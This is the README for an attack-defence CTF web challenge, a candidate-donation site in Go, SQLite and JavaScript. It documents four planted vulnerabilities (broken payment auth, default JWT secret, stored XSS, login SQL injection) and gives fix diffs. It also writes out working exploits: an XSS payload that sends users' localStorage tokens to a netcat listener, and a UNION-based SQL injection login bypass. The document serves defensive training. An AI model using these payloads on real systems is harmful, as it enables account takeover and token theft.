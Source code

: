 # Candidate Registry

**Author:** trenth

**Category:** Defence - Web

## Description

The candidate registry is a site where candidates can post their platform, collect donations and answer questions asked by voters. You can refer to the [release readme](./release_files/README.md) for a more detailed description.

The code for the service was "vibe coded" using cursor, to attempt to replicate a codebase similar to what we will likely see more of in the coming years.

Overall the app uses:

- Golang (backend)
- Sqlite3 (database)
- Javascript (frontend)
- Docker compose (container orchestrator)


### Files

defence_private_key: a ssh private key which provides teams access to their machine

### Host

ssh vpcadmin@10.0.2.92

### CTFd Description

TODO

## Vulnerabilities


### V1 - Payments endpoint broken auth (allows any voter or candidate to view payments for any candidate)

[Update handlers.go](./release_files/backend/handlers/handlers.go)
```diff
func GetCandidatePayments(c *gin.Context) {
	// Get candidate ID from URL
	candidateID, err := strconv.Atoi(c.Param("id"))
	if err != nil {
		c.JSON(http.StatusBadRequest, gin.H{"error": "Invalid candidate ID"})
		return
	}

+   // Get user ID from context
+	userID, exists := c.Get("user_id")
+	if !exists {
+		c.JSON(http.StatusUnauthorized, gin.H{"error": "User not authenticated"})
+		return
+	}

	// Verify the user is the candidate
	var count int
-	err = db.QueryRow("SELECT COUNT(*) FROM candidates WHERE id = ?", candidateID).Scan(&count)
+   err = db.QueryRow("SELECT COUNT(*) FROM candidates WHERE id = ? AND id = ?", candidateID, userID).Scan(&count)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to verify candidate"})
		log.Printf("Failed to verify candidate: %v", err)
		return
	}
```

---

### V2 - JWT insecure secret (the jwt secret hasn't been set so it's the default value)

[Update auth.go](./release_files/backend/auth/auth.go)
```diff
const (
    TokenExpiration = 24 * time.Hour
-   SecretKey      = "your-secret-key" // In production, use environment variable
+   SecretKey      = "some-random-new-secret-key-that-is-not-the-default" 
)
```

**Any requests working with generated JWT token means the exploit worked**

### V3 - XSS in voter questions (allows persistant XSS Injection)

Exploit:

> nc -nlvp 4444

```html
<img src="x" alt=" " onerror="fetch('http://localhost:4444/ping?c='+localStorage.getItem('token')).catch(()=>{})">
```

[Update Questions.js](./release_files/frontend/src/pages/questions/Questions.js)
```diff
    <Typography variant="body1" sx={{ mt: 1 }}>
-       Q: <span dangerouslySetInnerHTML={{ __html: question.question_text }} />
+       Q: <span>{question.question_text}</span>
    </Typography>

            <Typography variant="body1" color="primary">
-               A: <span dangerouslySetInnerHTML={{ __html: question.answer.answer_text }} />
+               A: <span>{question.answer.answer_text}</span>
            </Typography>
```

### V4 - SQL Injection in login endpoints (allows you to login as any user)

Exploit: 

```json
POST http://localhost:8080/auth/login/candidate
or
POST http://localhost:8080/auth/login/voter
{
    "email": "' UNION SELECT {id}, '{username}', '{useremail}', '$2y$10$mcxurRIhTcpboJEWtc0mmOY.RG38fh2jGTt47EZ.zwjGItJJpWqMG' --",
    "password": "hackedyou"
}
```

[Update handlers.go](./release_files/backend/handlers/handlers.go)
```diff
var voter models.Voter
var passwordHash string
-err := db.QueryRow("SELECT id, name, email, password_hash FROM voters WHERE email = '"+req.Email+"'").
+err := db.QueryRow("SELECT id, name, email, password_hash FROM voters WHERE email = ?", req.Email).
    Scan(&voter.ID, &voter.Name, &voter.Email, &passwordHash)
if err != nil {
    log.Printf("Failed to find voter: %v", err)
    c.JSON(http.StatusUnauthorized, gin.H{"error": "Invalid email or password"})
    return
}

var candidate models.Candidate
var passwordHash string
-err := db.QueryRow("SELECT id, name, email, password_hash FROM candidates WHERE email = '"+req.Email+"'").
+err := db.QueryRow("SELECT id, name, email, password_hash FROM candidates WHERE email = ?", req.Email).
    Scan(&candidate.ID, &candidate.Name, &candidate.Email, &passwordHash)
if err != nil {
    c.JSON(http.StatusUnauthorized, gin.H{"error": "Invalid email or password"})
    return
}

```

## Setup instructions

### Defence Box

Package up and copy the code onto the machine

> cd release_files/

> tar -cvf ../candy.tar .

> scp ../candy.tar vpcadmin@10.0.2.92:/home/vpcadmin/

Now we setup the machine

> ssh vpcadmin@10.0.2.92

> curl -fsSL https://get.docker.com -o install-docker.sh

> sh install-docker.sh --dry-run

> sh install-docker.sh

> rm install-docker.sh 

Reboot

> sudo reboot

Now run the service

> ssh vpcadmin@10.0.2.92

(And check that it comes up after a reboot)

Once it's ready for a snapshot use this to clear history and exit the sh

> cat /dev/null > ~/.bash_history && history -c && exit

### Attacker machine

1. Update the ATTACKER_IP in [candidate_attacker](./candidate_attacker.py) to match your attacker machine
2. scp candidate_attacker.py vpcadmin@{IP}:/home/vpcadmin/
3. scp requirements.txt vpcadmin@{IP}:/home/vpcadmin/
4. ssh vpcadmin@{IP}
5. Install python dependencies (pip3 install -r requirements)
6. playwright install (make sure its on path)


**Testing the attack script**

> PYTHONPATH=../siege python3 ../siege/siege/test_attacker.py candidate_attacker.py CandidateAttacker 10.0.2.92:80 1,2,3,4,-1,-2,-3,-4
